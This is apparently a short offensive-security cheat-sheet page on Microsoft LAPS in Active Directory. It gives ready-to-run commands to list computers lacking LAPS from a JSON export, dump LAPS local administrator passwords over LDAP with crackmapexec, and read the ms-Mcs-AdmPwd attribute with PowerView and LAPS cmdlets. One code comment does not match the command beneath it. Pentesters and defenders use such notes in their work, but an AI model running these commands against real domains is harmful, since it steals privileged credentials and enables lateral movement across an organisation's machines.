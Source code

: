 # Laps

### Enum computers with out laps

```bash
cat 20240402174520_computers.json| jq '.data[].Properties | select(.haslaps == false) | .name' -r
```



### **Dumping LAPS Passwords**

```bash
crackmapexec ldap 10.10.10.10 -u user -p password --kdcHost 10.10.10.10 -M laps
```



### PowerView

```powershell
# Find the principals that have ReadPropery on ms-Mcs-AdmPwd
Get-AdmPwdPassword -ComputerName wkstn-2 | fl

# Read the password
Get-DomainObject -Identity wkstn-2 -Properties ms-Mcs-AdmPwd
```
